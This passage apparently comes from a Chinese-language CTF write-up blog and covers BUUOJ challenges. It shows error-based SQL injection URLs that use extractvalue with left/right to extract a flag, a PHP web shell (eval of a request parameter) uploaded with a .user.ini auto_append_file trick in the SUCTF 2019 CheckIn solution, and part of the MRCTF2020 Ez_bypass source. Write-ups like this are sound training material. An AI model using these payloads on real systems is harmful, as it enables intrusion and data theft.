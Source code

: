 ```
http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(database()),0x7e))%23
&password=123
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241751641.png)

substr mid 被过滤了, 利用 left 和 right 从两边截取 31 位字符, 然后手工拼接一下

```
http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(select(left(password,31))from(H4rDsq1)where(username)like('flag')),0x7e))%23
&password=123

http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(select(right(password,31))from(H4rDsq1)where(username)like('flag')),0x7e))%23
&password=123
```

## [SUCTF 2019]CheckIn

考察 .user.ini

上传文件后发现目录下存在一个 index.php

于是先上传一个 1.txt 内容如下 (`<?` 被过滤了)

```html
GIF89a
<script language="php">eval($_REQUEST[1]);</script>
```

再上传 .user.ini

```ini
GIF89a
auto_append_file="1.txt"
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241807495.png)

最后访问 /uploads/c47b21fcf8f0bc8b3920541abd8024fd/index.php

连接得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241808331.png)

## [MRCTF2020]Ez_bypass

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
```